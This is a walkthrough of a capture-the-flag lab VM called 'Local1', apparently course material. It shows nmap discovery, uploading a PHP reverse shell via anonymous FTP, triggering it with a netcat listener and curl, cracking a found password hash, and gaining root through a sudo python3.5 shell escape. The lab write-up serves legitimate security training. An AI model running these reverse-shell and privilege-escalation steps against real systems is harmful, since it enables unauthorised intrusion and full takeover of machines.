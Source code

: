 # Local

## Setup vm
**Download VirtualBox**[link](https://www.virtualbox.org/wiki/Downloads)

**Target:** [01-Local1.ova](https://assets.01-edu.org/cybersecurity/local/01-Local.ova)

**Tools**[Kali](https://www.kali.org/get-kali/#kali-platforms)

"Install a virtual machine and set up host only adapter for easily finding the target IP."

![example](/image/setup-host-only-network.jpg)
![example](/image/make-sure-using-host-only-network.jpg)
> Ensure that Local1 and Kali use a host-only adapter and share the same one.

Now run kali and Local1



## Find IP Address

To discover the IP addresses, utilize nmap to scan the virtual machine (VM) host IPs that have been set up within the port range from 1 to 254 with the following command:



```
nmap 192.168.160.1-254
```
<img src="./image/find-ip-addr.jpg" alt="Your Image">


In this example, the target IP is **192.168.160.3**.
![example](/image/check-page.jpg)

**Next Step:** Adding a Reverse Shell to the Target Machine


You can obtain a reverse shell from the following GitHub repository: 
[Revshells](https://github.com/pentestmonkey/php-reverse-shell)

**Adding the Shell File to the Target Machine**

Use the command:

```
ftp 192.168.160.3
```
It will prompt for a username. Use "anonymous" as the username and press Enter for the password.
Now, add the shell using the command:
```
put /home/kali/Desktop/dont-worry.php dont-worry.php
```
> In this case, the shell file is located on the Desktop.

To verify whether the shell has been successfully added to the machine, type ls. Then, type exit and press Enter to exit FTP.

**Next Step: Active the Reverse Shell**

Open another command line and execute the command obtained from the reverse shell page:

```
nc -lvnp 9090
```

In another terminal, run the command:

```
curl http://192.168.160.3/files/dont-worry.php
```
to activate the shell.

![example](/image/active-shell.jpg)

Now, navigate to the home folder and execute the following command:
```
cat important.txt
```

In the "important.txt" file, the last line will instruct you to run "runme.sh" bash script to view all data. You can locate "runme.sh" in the root directory using the command:
```
ls -a
```
![example](/image/root.jpg)

Use the cat command to view the contents of the "runme.sh" file:

```
cat .runme.sh
```
![example](/image/runme-bash.jpg)

Within the bash script, you will find the hashed password for Shrek. To identify the hash type, you can use tools like "jack the ripper" or free web applications such as [md5decrypt](https://md5decrypt.net/en/)

![example](/image/check-hash-type.jpg)
![example](/image/decrypt-pass.jpg)


## Get into root

With the username 'shrek' and the password 'youaresmart', you can access Local1. Once logged in, you'll have permission to read 'user.txt'.

![example](/image/local1-in.jpg)


In this scenario, we observe that the user has permission to use Python 3.5. To verify the user's permissions, execute the following command:
```
sudo -l
``` 

To gain root access, we'll utilize Python to instruct the root user to open a root Bash shell:


```
sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'
```

![example](/image/get-root-shell.jpg)
> root flag will find in /root/root.txt and use cat command for reading file